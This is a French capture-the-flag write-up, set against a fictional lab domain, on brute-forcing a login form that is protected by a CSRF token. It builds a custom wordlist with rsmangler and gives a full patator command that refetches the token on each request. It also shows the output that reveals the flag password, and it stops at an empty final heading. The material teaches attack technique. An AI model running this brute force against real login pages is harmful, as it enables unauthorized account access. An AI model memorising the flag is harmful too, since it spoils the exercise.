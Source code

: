 ```yaml
---
title: Write-up 5
next: "/write-ups/wu6"
prev: "/write-ups/wu4"
---
```



# 🏰 Brute Force sur la page de login  - Castral-Roc

## 🎯 Objectif
Jon doit crocheter la serrure pour rentrer au conseil des lannister ! Il doit **brute-forcer la page de login** sur le sous-domaine **lannister.castral-roc.lannisport.south** pour découvrir **le mot de passe** de James Lannister.

**Flag attendu :** <ILoveCersei>

---

## ⚙️ Environnement
- **Cible :** lannister.castral-roc.lannisport.south
- **Outil utilisé :** rsmangler, patator
- **Wordlist :** custom wordlist créée par le pentester

---


## 🚀 Étape 1 : se rendre sur la page high_login et analyser le comportement du formulaire de connexion


Page de login du Conseil des Lannister :  http://lannister.castral-roc.lannisport.south/high_login.php 

## 🔍 Étape 2 :  Inspecter la page 

Inspecter la page pour trouver les champs du formulaire de connexion.
On voit que le formulaire utilise un token CSRF pour se protéger des attaques CSRF.

> [!Définition]
> CSRF : Cross-Site Request Forgery, une attaque qui consiste à forcer un utilisateur à exécuter des actions non désirées sur un site auquel il est authentifié.

Il faut donc trouver un moyen de contourner cette protection.

De plus on remarque que le formulaire de connexion contient un champ **username** et un champ **password**, la methode utilisée est **POST**.

```html
<form method="POST">
        <input type="hidden" name="csrf_token" value="zdagte....">
        <label for="username">Nom d'utilisateur :</label><br>
        <input type="text" id="username" name="username" required><br>
        <label for="password">Mot de passe :</label><br>
        <input type="password" id="password" name="password" required><br>
        <input type="submit" value="Connexion">
</form>
```

## 🚀 Étape 3 : Créer une wordlist personnalisée

1. On remarque sur la page plusieurs **indices** :

```bash	
- James
- Lannister
- Cersei
- Love
- I
```

On peut donc créer une **wordlist personnalisée**  avec ces mots.

Les ajouter a un fichier.

```bash	
nano custom_wordlist.txt
```

Coller les mots dans le fichier, sauvegarder et quiter.

```bash	
James
Lannister
Cersei
Love
I
```


2. Créer un fichier sortie_wordlist.txt avec un multitude de variations possible de ces mots : 

```bash	
rsmangler --file custom_wordlist.txt --output sortie_wordlist.txt
```

Il va donc par exemple y avoir des variations de la forme :

```bash
JamesLaNNisterCerseiLoveI
IJamesLannisterCerseiLove
CerseiLoveIJamesLannister
...
```



## 🔍 Étape 4 : Brute-force du formulaire de connexion

Comme le formulaire utilise un token CSRF, on va utiliser l'outil **patator** pour effectuer un bruteforce sur le formulaire de connexion.
En effet, patator permet de contourner la **protection CSRF** en recuperant le token avec chaque requête.
De ce fait, lorsque l'on envoie une requête, le token est récupéré et utilisé pour la requête suivante.

```bash
patator http_fuzz url="http://lannister.castral-roc.lannisport.south/high_login.php" method=POST body="username=james.lannis&password=FILE0&csrf_token=RESPONSE1" accept_cookie=1 0=sortie_wordlist.txt before_urls="http://lannister.castral-roc.lannisport.south/high_login.php" before_egrep='RESPONSE1:csrf_token" value="([a-f0-9]{32})"' resolve="lannister.castral-roc.lannisport.south:10.10.10.1"
```

Décomposons la commande :

- **http_fuzz** : module de patator pour effectuer des attaques par bruteforce sur des formulaires web
- **url** : l'url de la page de login
- **method** : la méthode HTTP utilisée pour envoyer les requêtes
- **body** : les paramètres du formulaire de connexion
- **accept_cookie** : accepter les cookies
- **0** : le fichier contenant les mots de passe à tester
- **before_urls** : l'url de la page de login
- **before_egrep** : expression régulière pour récupérer le token CSRF, le token peut avoir des valeurs de a à f et de 0 à 9 car il s'agit de valeurs hexadécimale
- **resolve** : résoudre le nom de domaine en adresse IP

Cette commande va tester tous les mots de passe de la wordlist sur le formulaire de connexion.

On aura donc cette sortie : 

```bash
18:23:37 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.11.5 at 2025-02-11 18:23 CET
18:23:37 patator    INFO -                                                                              
18:23:37 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:23:37 patator    INFO - -----------------------------------------------------------------------------

18:23:38 patator    INFO - 200  1050:-1        0.032 | LoveICersei                        |    74 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 200  1054:-1        0.065 | IJamesLannister                    |    75 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 302  429:-1         0.055 | ILoveCersei                        |    86 | HTTP/1.1 302 Found
```

On voit que le mot de passe **ILoveCersei** a été trouvé, car on a reçu une réponse **HTTP 302 Found**.

## 🎯 Étape 5 : Validation du Flag


